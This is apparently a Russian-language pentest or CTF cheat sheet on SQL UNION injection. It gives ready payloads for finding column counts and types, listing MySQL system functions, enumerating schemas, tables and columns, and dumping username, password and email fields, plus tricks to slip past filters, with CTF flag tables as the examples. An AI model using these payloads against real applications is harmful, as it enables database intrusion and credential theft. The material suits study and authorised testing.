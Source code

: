 # SQL UNION Injection

### Общее представление об атаке SQL UNION Injection

Реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Данный SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы успешно выполнить атаку, необходимо знать:**

* Сколько столбцов возвращается из исходного запроса
* Тип данных каждого столбца

### **Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - `ORDER BY`:

```sql
' ORDER BY 1 -- - (200 OK)
' ORDER BY 2 -- - (200 OK)
' ORDER BY 3 -- - (200 OK)
' ORDER BY 4 -- - (500 ERROR)
```

В таблице 3 столбца, так как `' ORDER BY 4` выдает ошибку.

**Второй способ** - `UNION SELECT`:

```sql
' UNION SELECT NULL-- (500 ERROR)
' UNION SELECT NULL,NULL -- - (500 ERROR)
' UNION SELECT NULL,NULL,NULL -- - (200 OK)
' UNION SELECT NULL,NULL,NULL,NULL -- - (500 ERROR)
```

Перебираем NULL, пока не получим 200 ОК, т.к. без ошибок

<mark style="color:green;">**Используем NULL, потому что NULL подходит для всех типов данных.**</mark>

### **Определение типа данных каждого столбца:**

```
' UNION SELECT 'a',NULL,NULL,NULL --
' UNION SELECT NULL,'a',NULL,NULL --
' UNION SELECT NULL,NULL,'a',NULL -- 
```

### **Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:

```sql
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):

```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

### **Некоторые функции из MySQL:**

```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

### Последовательность действий для выполнения успешной атаки

* Определяем количество столбцов
* Определяем тип данных каждого столбца
* Выводим все базы данных:

```sql
1337'union select group_concat(schema_name),NULL,NULL from information_schema.schemata -- -
```

* Выводим все таблицы из базы данных database1

```sql
1337'union select group_concat(table_name),NULL,NULL from information_schema.tables where table_schema='database1' -- -
```

* Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat(column_name),NULL,NULL from information_schema.columns where table_schema='database1' and table_name='table1' -- -
```

* Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:

```sql
1337'union select group_concat("\n", username,":",password,":",email,"\n"),NULL,NULL from database1.table1
```

**1337 -** например, параметр id, но важно, чтобы такого значения не было в таблице (или можно использовать -1).

Вместе с group\_concat() можно использовать concat(), чтобы выбрать еще поля. Например:

```
(...),group_concat(concat('\n', table_name, ':', column_name from information_schema.schemata -- -
```

## Обход фильтров

### Запрещено \[ , ' ( ) + = \ " ] + и пробел:

```sql
SELECT * FROM age WHERE age=$age
```

Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:

```sql
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:

```sql
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) \* и обход защиты от select:

```sql
SELECT * FROM age WHERE age=$age
```

Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a
```

Ответ:

```sql
MySQL error: The used SELECT statements have a different number of columns
```

Пробуем добавить еще одну колонку:

```sql
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```

И в ответе мы получаем флаг

### Запрещен SELECT полностью:

```sql
SELECT * FROM age WHERE age=$age
```

Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:

```sql
1337 union SELSELECTECT null,null,flag from flag
```
